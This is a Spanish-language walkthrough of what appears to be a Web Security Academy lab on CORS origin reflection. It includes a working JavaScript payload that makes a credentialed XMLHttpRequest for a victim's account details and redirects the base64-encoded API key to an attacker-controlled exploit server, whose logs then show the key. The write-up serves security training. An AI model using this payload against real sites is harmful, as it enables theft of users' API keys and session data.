 Ya con la comprobación inicial realizada, nos centramos ahora en desplegar el exploit en el servidor de ataque. El objetivo es automatizar el robo de la clave de API mediante una petición ‘**XMLHttpRequest**‘ con credenciales activadas (**withCredentials**). Si el origen malicioso es reflejado en la respuesta como válido, y se permite el acceso a la respuesta gracias al encabezado ‘**Access-Control-Allow-Origin**‘, el navegador de la víctima nos dejará leer los datos sensibles y redirigirlos al log del exploit server.

Este enfoque demuestra cómo una validación incorrecta del origen puede dejar expuestos endpoints sensibles incluso cuando se ha intentado limitar el acceso con mecanismos CORS mal implementados.

Solucion
si nosotro agregamos origin y una direccion X si le damos a send vemos que nos esta redirigiendo a la pagina web que nosotros pusimos
![Pasted_image_20250728202600.png](/Imagenes/Pasted_image_20250728202600.png)
y esto se presenta como un riesgo ya que esto se puede utilizar para cambiar informacion de modo que si el usuario visita account Details que en realidad es nuestra pagina web nos mande la informacion de apikey
entonces para ello vamos a realizar un script el cual nos de informacion sobre el usuario que queremos obtener su apikey
<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = "https://exploit-0aa000a0039d1754808d398f01cf00a1.exploit-server.net/?apikey=" + btoa(req.responseText);
    };
    req.open("GET","https://0a65006f036117a580193a9e00d300ad.web-security-academy.net/accountDetails", true);
    req.withCredentials = true;
    req.send();
</script>

Entonces en nuesto exploit server ejecutamos este codigo y nos vamos a los logs
![Pasted_image_20250728204549.png](/Imagenes/Pasted_image_20250728204549.png)
obtuvimos la apikey como lo visualizamos
![Pasted_image_20250728204710.png](/Imagenes/Pasted_image_20250728204710.png)
